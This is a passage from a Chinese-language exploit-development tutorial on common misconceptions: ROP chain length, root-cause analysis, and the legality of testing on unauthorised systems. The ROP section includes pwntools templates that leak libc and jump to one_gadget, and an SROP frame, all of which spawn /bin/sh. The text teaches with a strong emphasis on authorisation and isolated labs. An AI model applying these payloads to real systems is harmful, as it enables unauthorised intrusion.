- NSO Group等商业间谍软件公司每年在浏览器0day上投入数千万美元
- 这种高价值直接驱动了持续的安全研究投入——**只要有足够高的回报，攻击面就会被持续挖掘**

### 结论

浏览器漏洞利用不是"已经不可能"，而是 **需要更高的技术能力和更多的时间投入**。只要JIT编译器继续优化、Web标准继续扩展、攻击面继续存在，浏览器漏洞利用就将一直是安全研究的核心领域。**安全与功能的永恒矛盾保证了漏洞的持续存在**——这是工程复杂度的必然结果。

---

## 误区六：ROP链越长越厉害

### 错误认知

认为ROP链越长、包含的Gadget越多，利用技术就越高超。把ROP链的长度当作技术水平的衡量标准。

### 为什么会产生这个误区

初学者在学习ROP时，通常会用ROPgadget等工具搜索大量Gadget，然后手动拼接成长链。这种"收集Gadget"的过程产生了一种"拥有越多越好"的心理。此外，教程中的ROP示例通常为了教学目的而展示较长的链，让初学者形成了"长=全面"的印象。

### ROP链设计的正确目标

ROP链设计的 **核心目标** 是：

1. **最小化**：用最少的Gadget完成目标，减少攻击面和失败概率
2. **可靠性**：每个Gadget的执行都可预测，不受环境变化影响
3. **稳定性**：在不同环境版本下都能工作，不过度依赖特定偏移
4. **兼容性**：适应ASLR、Stack Canary等防护，利用泄露而非硬编码

### ROP链设计优化方法

**方法一：使用 one_gadget**

```bash
# one_gadget查找器：直接找到能执行execve("/bin/sh")的代码地址
# 每个gadget有自己的约束条件（constraints），需要满足才能正确执行
$ one_gadget libc.so.6
0xe3afe execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe3b01 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [[rsp+0x40]] == NULL

0xe3b04 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
  [[rsp+0x40]] == NULL
```

```python
# 使用：只需一个地址，无需构建长ROP链
from pwn import *

p = process('./vuln')
elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 泄露libc基址
rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call('main')

payload = b'A' * offset + rop.chain()
p.sendline(payload)

# 获取libc基址
puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = puts_leak - libc.sym.puts

# 直接跳one_gadget
one_gadget = libc.address + 0xe3afe  # 根据实际libc版本调整
payload2 = b'A' * offset + p64(one_gadget)
p.sendline(payload2)
p.interactive()
```

**方法二：SROP（Sigreturn-Oriented Programming）**

SROP利用 `sigreturn` 系统调用一次性恢复所有寄存器，比传统ROP简洁得多：

```python
from pwn import *

# SROP：只需2-3个Gadget即可控制所有寄存器
# 原理：sigreturn系统调用从栈上恢复整个sigcontext结构
# 包括所有通用寄存器、段寄存器、RIP、RSP等

frame = SigreturnFrame()
frame.rax = 59          # sys_execve
frame.rdi = binsh_addr  # "/bin/sh" 地址
frame.rsi = 0           # NULL
frame.rdx = 0           # NULL
frame.rip = syscall_ret  # syscall; ret gadget
frame.rsp = 0xdeadbeef   # 栈指针（可任意设置）

payload = b'A' * offset
payload += p64(sigreturn_gadget)  # pop rax; ret (设置rax=15, 即__NR_rt_sigreturn)
payload += p64(15)                # rt_sigreturn的系统调用号
payload += p64(syscall_ret)       # syscall; ret → 触发sigreturn
payload += bytes(frame)           # 伪造的sigcontext

# 优势：
# 1. 只需知道sigreturn_gadget和syscall_ret两个地址
# 2. 一次性控制所有寄存器，无需逐个构造
# 3. 在KASLR绕过后极其高效
```

**方法三：pwntools自动ROP**

```python
from pwn import *

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
rop = ROP(elf)

# pwntools自动计算最优ROP链
# 当单个chain不够时，会自动构造多级chain
rop.call('puts', [elf.got['puts']])  # 泄露libc地址
rop.call('main')                      # 返回main继续利用

# 查看自动生成的ROP链和使用的Gadget
print(rop.dump())
print(f"ROP chain length: {len(rop.chain())} bytes")
print(f"Gadgets used: {len(rop.gadgets)}")
```

### ROP长度与可靠性的关系

| ROP链长度 | 失败概率（单个Gadget成功率99%） | 适用场景 |
|----------|-------------------------------|---------|
| 1-3个Gadget | < 3% | one_gadget、SROP、简单栈溢出 |
| 5-10个Gadget | 5-10% | 常规利用（泄露libc + 执行system） |
| 15-30个Gadget | 14-26% | 复杂利用（多阶段、条件分支） |
| 50+个Gadget | 40%+ | 不推荐，应改用其他方法 |

**数学解释**：假设每个Gadget的执行成功率为99%（实际环境中可能更低），那么：
- 3个Gadget的链成功率：0.99^3 = 97.0%
- 10个Gadget的链成功率：0.99^10 = 90.4%
- 30个Gadget的链成功率：0.99^30 = 74.0%
- 50个Gadget的链成功率：0.99^50 = 60.5%

### 替代长ROP链的技术

| 技术 | 原理 | 优势 | 劣势 |
|------|------|------|------|
| SROP | sigreturn恢复所有寄存器 | 极短（2-3个gadget） | 需要sigreturn可用（无SA_NODEFER） |
| JOP | 通过间接跳转而非返回 | 不依赖栈，更灵活 | 需要更多的代码复用 |
| Ret2csu | 利用__libc_csu_init | 控制rdi/rsi/rdx/rcx/r8/r9 | 仅适用于特定libc版本 |
| One-gadget | 直接跳转到execve | 只需1个地址 | 约束条件可能不满足 |
| 整合利用 | 结合任意读写原语 | 绕过所有栈保护 | 需要先获得读写原语 |

### 结论

ROP链设计的核心是 **可靠性优先于长度**。超过15个Gadget的ROP链应考虑使用JOP、SROP、COP或内联汇编替代。**真正的高手不是能构建最长ROP链的人，而是能用最少Gadget完成目标的人。** 每多一个Gadget，就多一个可能失败的点。

---

## 误区七：只关注利用技术，忽视漏洞根因

### 错误认知

过度关注如何利用漏洞（exploit），而忽视了理解漏洞的根本原因（root cause）。认为"能利用就行，知道为什么出bug不重要"。

### 为什么会产生这个误区

利用技术直接带来"成果"——提权、shell、flag，而根因分析看起来是"防御者的事"。这种功利性思维在CTF玩家和初级渗透测试人员中尤为常见。此外，很多漏洞利用教程只展示"怎么利用"，而不解释"为什么会存在这个漏洞"，强化了这种倾向。

### 为什么理解根因至关重要

**1. 漏洞根因决定利用方式**

不同类型的根因需要完全不同的利用策略：

```mermaid
flowchart TD
    Root["漏洞根因分类"] --> Mem["内存安全类"]
    Root --> Logic["逻辑缺陷类"]
    Root --> Race["竞争条件类"]
    Root --> Crypto["密码学类"]

    Mem --> M1["栈溢出<br/>利用：覆盖返回地址/栈变量"]
    Mem --> M2["堆溢出<br/>利用：覆写堆元数据/相邻对象"]
    Mem --> M3["UAF<br/>利用：替换释放后的对象内容"]
    Mem --> M4["类型混淆<br/>利用：伪造虚函数表/类型信息"]
    Mem --> M5["Double Free<br/>利用：构造循环引用实现任意分配"]

    Logic --> L1["整数溢出<br/>利用：绕过大小检查导致越界"]
    Logic --> L2["未初始化变量<br/>利用：控制残留数据影响逻辑"]
    Logic --> L3["认证绕过<br/>利用：直接访问受保护功能"]
    Logic --> L4["IDOR<br/>利用：直接访问其他用户的资源"]

    Race --> R1["TOCTOU<br/>利用：在检查和使用之间修改状态"]
    Race --> R2["Double Fetch<br/>利用：用户态数据被多次读取不一致"]
    Race --> R3["Race to Root<br/>利用：竞争条件导致权限提升"]

    Crypto --> C1["弱随机数<br/>利用：预测随机序列"]
    Crypto --> C2["密钥泄露<br/>利用：从二进制/配置中提取"]

    style Root fill:#1a1a2e,stroke:#e94560,color:#fff
```



**2. 补丁分析能力——0day研究的核心技能**

从补丁逆向推导漏洞是0day研究的核心技能：

```c
// 补丁前（存在漏洞的代码）
int process_input(char *user_buf, int len) {
    char kernel_buf[256];
    if (len > 256) return -EINVAL;  // 边界检查
    memcpy(kernel_buf, user_buf, len);  // 拷贝
    // ... 处理逻辑
}

// 补丁后（修复后的代码）
int process_input(char *user_buf, int len) {
    char kernel_buf[256];
    if (len < 0 || len > 256) return -EINVAL;  // 添加了负数检查
    memcpy(kernel_buf, user_buf, len);
    // ...
}

// 根因分析：
// 漏洞类型：有符号整数比较
// 如果len是负数（如-1），len > 256 为假，检查被绕过
// memcpy将len解释为size_t（无符号），-1变为0xFFFFFFFF
// 结果：栈缓冲区溢出 → 内核提权
//
// 修复方案：将有符号比较改为无符号比较，或添加负数检查
```

只有理解了"有符号/无符号整数比较"这个根因，才能：
- 在其他代码中找到同类漏洞（漏洞挖掘）
- 针对性地构造绕过方法（漏洞利用）
- 设计检测规则（安全防御）
- 评估补丁的完整性（是否存在绕过变体）

**3. 跨平台迁移能力**

理解根因后，同一类漏洞可以在不同平台复现：

```text
同一根因（有符号整数比较）在不同平台的表现：
├── Linux内核：栈溢出 → 内核提权
├── FreeBSD内核：栈溢出 → 内核提权
├── Windows驱动：栈溢出 → 内核提权（BSOD或提权）
├── 嵌入式RTOS：栈溢出 → 设备控制
├── WebAssembly：整数溢出 → 沙箱逃逸
└── Rust项目（使用unsafe）：整数溢出 → 内存安全破坏
```

**4. 防御思维的建立**

理解根因才能设计有效的防御机制：

| 漏洞根因 | 对应防御措施 | 防御原理 |
|---------|------------|---------|
| 缓冲区溢出 | 栈保护（Stack Canary）、ASLR | 检测溢出、增加猜测难度 |
| UAF | 引用计数、Rust借用检查器 | 从根本上防止悬空引用 |
| 整数溢出 | 安全整数运算库、编译器检查 | 在溢出发生前检测并中止 |
| 类型混淆 | 强类型系统、CFI（控制流完整性） | 限制类型转换的范围 |
| 竞争条件 | 锁机制、RCU、原子操作 | 保证操作的原子性 |
| 信息泄露 | 密码学安全随机数、密钥封装 | 从数学层面保证不可预测性 |

**5. 漏洞预测与主动发现**

理解根因的终极价值在于 **预测性漏洞挖掘**：

- 掌握"有符号整数比较"根因 → 系统性审查所有 `if (signed_var > CONSTANT)` 模式
- 掌握"UAF"根因 → 关注所有引用计数非原子化的代码路径
- 掌握"TOCTOU"根因 → 审查所有"先检查后使用"的文件操作模式

这种基于根因的漏洞预测能力，是从"被动修复"转向"主动防御"的关键。

### 结论

**利用能力是"术"，根因理解是"道"**。只追求利用技术而不理解根因，会陷入"知其然不知其所以然"的困境，无法举一反三，无法独立发现新漏洞。真正的安全研究者应当同时精通"攻"与"防"。**理解根因不是防御者的义务——它是攻击者从"脚本小子"进化为"安全研究员"的必经之路。**

---

## 误区八：在生产环境中测试漏洞利用

### 错误认知

认为在生产环境或未经授权的系统上测试漏洞利用是"实战训练"，是成为真正黑客的必经之路。

### 为什么会产生这个误区

影视作品和媒体叙事中，黑客总是在真实系统上展示能力。部分技术社区也存在"只在真实环境中才算真本事"的错误文化。此外，部分新手不了解法律边界，误以为"没造成破坏就没事"。一些论坛和群组中的"实战至上"言论进一步强化了这种危险认知。

### 法律风险详解

**中国法律框架：**

| 法律条文 | 适用情形 | 可能后果 |
|---------|---------|---------|
| 《刑法》第285条（非法侵入计算机信息系统罪） | 未经授权侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统 | 3年以下有期徒刑或拘役 |
| 《刑法》第285条之二（非法获取计算机信息系统数据罪） | 通过技术手段获取其他计算机信息系统中存储、处理或传输的数据 | 3年以下；情节特别严重的，3-7年 |
| 《刑法》第286条（破坏计算机信息系统罪） | 对计算机信息系统功能进行删除、修改、增加、干扰，造成系统不能正常运行 | 5年以下；后果特别严重的，5年以上 |
| 《刑法》第287条之二（帮助信息网络犯罪活动罪） | 明知他人利用信息网络实施犯罪，提供技术支持 | 3年以下 |
| 《网络安全法》第27条 | 未经授权对他人网络进行干扰、破坏 | 行政处罚、民事赔偿 |
| 《数据安全法》 | 非法获取、泄露数据 | 行政处罚、刑事责任 |
| 《个人信息保护法》 | 非法收集、使用个人信息 | 行政处罚、民事赔偿 |

**关键法律原则**：

- **"没有造成破坏"不是免责理由**：侵入行为本身即构成违法
- **"测试目的"不是免责理由**：法律不区分"测试"和"攻击"，意图不影响定性
- **"白帽子"身份需要法律依据**：必须有书面授权（Bug Bounty协议、渗透测试合同、CTF官方许可）
- **"不知道是生产环境"不是免责理由**：对目标系统的无知不构成抗辩理由
- **跨境法律风险**：攻击境外服务器可能同时违反目标国法律和中国法律

**真实案例警示**：

- 2023年某安全研究者因未经授权测试某云服务商系统，被以"非法获取计算机信息系统数据罪"起诉
- 某CTF选手在比赛结束后继续测试出题方服务器漏洞，被追究法律责任
- "白帽子"提交漏洞报告反被厂商起诉的案例已有多起

### 合法的安全研究渠道



### 搭建安全的实验环境

**推荐方案：完全隔离的漏洞利用开发环境**

```bash
#!/bin/bash
# setup_lab.sh — 一键搭建漏洞利用实验室

# 1. 创建隔离的QEMU虚拟机（无网络）
qemu-system-x86_64 \
    -kernel bzImage \
    -initrd rootfs.cpio.gz \
    -nographic \
    -append "console=ttyS0 nokaslr" \
    -monitor none \
    -no-reboot \
    -m 512M \
    -smp 1 \
    -net none \
    -drive file=disk.qcow2,format=qcow2 \
    -snapshot  # 启用快照模式，实验失败可一键恢复

# 2. 使用GDB远程调试
gdb -ex "target remote :1234" \
    -ex "add-symbol-file vmlinux" \
    -ex "b *do_sys_open" \
    -ex "c"

# 3. 环境要求清单：
# ☑ 物理隔离（无网络连接或仅Host-Only网络）
# ☑ 快照备份（失败可快速恢复）
# ☑ 日志记录（所有实验步骤可追溯）
# ☑ 数据隔离（不混入真实数据）
# ☑ 访问控制（仅授权人员可访问实验环境）
```

**使用Vulhub快速搭建靶机环境：**

```bash
# Vulhub提供数百个已知漏洞的Docker复现环境
# 这是最安全的"实战"方式——在完全隔离的环境中复现真实漏洞

# 示例：搭建Apache Struts2漏洞环境
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker-compose up -d

# 靶机在本地运行，端口映射到localhost
# 完全隔离，不影响任何真实系统
curl http://localhost:8080/
```

### 伦理准则

安全研究者应当遵守的伦理准则：

1. **最小伤害原则**：只在授权范围内操作，避免不必要的破坏
2. **负责任披露**：发现漏洞后通过正规渠道报告给厂商，给予合理修复时间（通常90天）
3. **隐私保护**：测试过程中接触到的数据必须严格保密，不得传播
4. **记录保存**：所有研究活动应有完整记录，以备审查和法律保护
5. **持续学习**：了解并遵守所在地区的法律法规，关注法律动态
6. **透明沟通**：与目标系统的安全团队保持开放沟通，避免误解

### 结论

合法的安全研究渠道 **已经足够丰富**。Bug Bounty平台、CTF竞赛、私人虚拟机环境完全可以满足从入门到精通的所有训练需求。在未经授权的系统上测试漏洞利用，不仅违法，而且没有必要。**真正的技术能力来自于理解原理和反复练习，而非在真实系统上的冒险行为。**

---

## 误区总结与正确认知对照表

| # | 常见误区 | 正确认知 | 核心教训 |
|---|---------|---------|---------|
| 1 | 内核漏洞利用 = 直接获取Root Shell | 内核利用是多阶段系统工程，每个环节都可能失败 | 理解完整的攻击链，而非只关注最后一步 |
| 2 | 堆喷射是暴力方法 | 堆喷射是工程化标准做法，可靠性优于"优雅" | 生产环境的优雅 = 可靠 + 可复现 |
| 3 | KASLR绕过后形同虚设 | KASLR是纵深防御的一环，与其他防护协同显著提高利用难度 | 安全是体系，不是单点 |
| 4 | 虚拟机逃逸只存在于老旧软件 | 虚拟机逃逸持续存在，攻击面随功能扩展而扩大 | 新功能 = 新攻击面 |
| 5 | 浏览器利用已经不可能 | 浏览器利用难度高但持续可行，JIT引擎复杂性保证漏洞持续存在 | 复杂度是漏洞的温床 |
| 6 | ROP链越长越厉害 | ROP链应最小化、最优化，one_gadget/SROP/工具辅助更可靠 | 精简 = 可靠 |
| 7 | 只关注利用技术就够了 | 理解根因是举一反三、漏洞挖掘、跨平台迁移的基础 | 道法术器，道为根本 |
| 8 | 在生产环境测试利用是实战 | 这是违法行为，合法渠道足够满足训练需求 | 技术能力不来自冒险 |

---

## 自查清单：你是否踩过这些坑？

对照以下问题进行自我检查，每个"是"都代表一个需要纠正的认知：

```markdown
□ 我是否认为找到一个漏洞就能直接提权？
□ 我是否觉得堆喷射"不够高级"而试图避免使用？
□ 我是否认为绕过KASLR后就不需要考虑地址随机化？
□ 我是否认为VM逃逸已经是"过时"的研究方向？
□ 我是否认为浏览器太安全了不值得研究？
□ 我是否认为ROP链越长越好，花大量时间拼接长链？
□ 我是否只关心exploit，从不分析漏洞的根本原因？
□ 我是否曾在未经授权的系统上测试过exploit？
```

如果以上任何一项你的回答是"是"，请回顾对应的误区章节。**认知的纠正是技术进步的前提。**

---

## 延伸阅读：从误区到正确的进阶之路

### 推荐学习路径

```text
第一阶段：建立正确基础（误区一、二、七）
├── 阅读Linux内核源码中的内存管理子系统
├── 在QEMU中搭建内核pwn环境
├── 完成10+个CTF内核题，理解完整利用链
└── 对每个漏洞写出根因分析报告

第二阶段：深入防护机制（误区三、五、六）
├── 逐一关闭/开启防护机制，观察利用变化
├── 实现绕过KASLR的完整exploit
├── 优化ROP链到最小长度
└── 在浏览器中实现一个完整的info leak

第三阶段：工程化实践（误区四、八）
├── 搭建完全隔离的实验环境
├── 阅读VM逃逸的公开exploit分析
├── 参与Bug Bounty计划，获取合法测试经验
└── 建立个人漏洞研究笔记和工具库

第四阶段：持续精进
├── 跟踪CVE补丁，练习补丁逆向分析
├── 跨平台迁移同一类漏洞
├── 为开源项目贡献安全修复
└── 撰写技术博客，分享研究成果
```

### 核心心智模型

```text
脚本小子           →  理解原理的人          →  能创造方法的人
├── 复制exploit     ├── 分析exploit为什么有效  ├── 发现新漏洞
├── 不理解细节       ├── 能修改适配不同环境     ├── 设计新攻击技术
├── 踩坑后不知原因   ├── 能解释每个步骤的原因   ├── 推动安全边界扩展
└── 受限于已有工具   └── 能组合多种技术         └── 定义安全研究标准
```

> **安全研究的核心是理解与防御，而非破坏。技术能力应当用于保护，而非伤害。** 真正的高手不是能利用多少漏洞，而是能理解多少原理、构建多少防御、保护多少系统。从纠正认知误区开始，踏上真正的安全研究之路。
